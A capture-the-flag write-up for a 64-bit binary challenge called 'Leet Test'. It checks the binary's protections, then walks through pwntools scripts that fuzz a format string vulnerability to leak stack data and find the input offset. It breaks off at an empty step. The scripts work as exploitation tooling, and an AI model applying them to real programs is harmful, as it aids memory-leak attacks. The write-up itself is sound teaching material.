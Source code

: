 # Leet Test
> Write-up author: jon-brandy
## DESCRIPTION:
Are you 1337 enough?
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.
2. Now check the file type.

> RESULT - 64 BIT binary file, dynamically linked, not stripped.

![image](https://user-images.githubusercontent.com/70703371/210160534-d3b9375c-ea12-4897-9164-e86fa02cec9a.png)


3. Now check the binary's protection.

> RESULT - Partial RELRO, No canary found, No PIE

![image](https://user-images.githubusercontent.com/70703371/210160549-d94c6c8d-ede2-4b32-a57f-0375c4122480.png)


4. Let's open the binary in ghidra.

> RESULT - MAIN

![image](https://user-images.githubusercontent.com/70703371/210160613-fde04826-f2ec-4a81-a432-a08e4c1c27ed.png)


5. As we can see from the main function there's no bufferoverflow, but there's format strings vulnerability.

![image](https://user-images.githubusercontent.com/70703371/210160663-ce69190c-30df-465b-8f2c-03dbc6d6470e.png)


6. Notice the `local_13c` value multiplied by 0x1337c0de and compared to the winner which in the **.data** section.

> WINNER VALUE

![image](https://user-images.githubusercontent.com/70703371/210160678-49f0fc94-7c11-45f5-b274-74eda075b27e.png)


7. The value of variable `local_13c` is read in from `/dev/urandom`

![image](https://user-images.githubusercontent.com/70703371/210160703-2c5e0343-ea88-4132-81f4-b16c0bcd3c13.png)


8. What comes to my mind is we could overwrite the value of `local_13c` in the `/dev/urandom` with the value of `winner` divided by the `1337c0de`.

```
local_13c * 1337c0de / 1337c0de
```

9. But the problem here is, we will get a float value and float value will converted in various forms in hex.
10. So that's not the correct approach.
11. Anyway let's utilize the format string vulnerability to see if there's any clue.
12. I made a script to fuzz the format strings specifier.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

elf = context.binary = ELF('./leet_test', checksec=False)
sh = process(level='error')
for i in range(256): # random range
    try:
        sh.sendline('%{}$s'.format(i))
        sh.recvuntil('Hello,')
        result = sh.recvline() # to receive the response / result
        print(str(i) + ': ' + str(result))
    except EOFError:
        pass
```

13. First, run chmod to make the binary executeable, then run the script.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210160957-c1996945-770f-4327-ac66-36a941c93e98.png)


14. Hmm.. Got only 4 iterations, let's try to `$p`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210160967-a7e02ffa-35d8-4264-8a01-cc0c45443148.png)


15. Got a bunch of stack addresses. 
16. Hmm... Let's upgrade our fuzzy script to this:

```py
from pwn import *
import os

os.system('clear')

elf = context.binary = ELF('./leet_test', checksec=False)
context.log_level = 'error'
for i in range(256): # random range
    try:
        sh = process('./leet_test')
        sh.sendline('%{}$s'.format(i))
        sh.recvuntil('Hello,')
        result = sh.recvline() # to receive the response / result
        print(str(i) + ': ' + str(result))
        sh.close()
    except EOFError:
        pass
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/210161010-d65ca93d-fd65-475c-863e-5fd10e2a1ff0.png)


17. Notice that we're getting down to the environtment variables on my system.
18. Now let's check wheter we can put our string inside.

```py
from pwn import *
import os

os.system('clear')

elf = context.binary = ELF('./leet_test', checksec=False)
context.log_level = 'error'

sh = process('./leet_test')
sh.sendline('AAAAAAAA')

for i in range(256): # random range
    try:
        #sh = process('./leet_test')
        sh.sendline('%{}$x'.format(i))
        sh.recvuntil('Hello,')
        result = sh.recvline() # to receive the response / result
        print(str(i) + ': ' + str(result))
        #sh.close()
    except EOFError:
        pass
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/210161093-4cc695bc-7439-4df4-a332-592f5cf3d0ea.png)


19. We succeed here, but we want to see the `hex` format of A (0x41).
20. Let's add another 4 bytes.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210161105-bae24168-def5-4b74-8fd1-1e43735ff555.png)


21. Yep we got it, means we need to right 8 bytes before print any address. 
22. 
